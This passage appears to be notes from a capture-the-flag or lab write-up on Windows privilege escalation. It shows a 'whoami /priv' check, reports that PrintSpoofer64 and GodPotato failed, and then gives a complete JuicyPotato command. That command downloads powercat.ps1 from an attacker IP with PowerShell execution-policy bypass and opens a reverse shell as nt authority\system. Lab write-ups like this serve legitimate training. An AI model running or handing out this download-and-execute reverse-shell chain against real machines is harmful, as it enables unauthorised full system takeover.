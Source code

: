 ```powershell
whoami /priv
```
![[Pasted image 20240910104349.png]]

Attempted to privesc using PrintSpoofer64 and GodPotato but none worked.

Tried using JuicyPotato using the following command and got an elevated shell as `nt authority\system`
```powershell
JuicyPotato.exe -l 1337 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" -p "C:\Windows\System32\cmd.exe" -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.7/powercat.ps1');powercat -c 10.10.14.7 -p 443 -e cmd" -t *
```


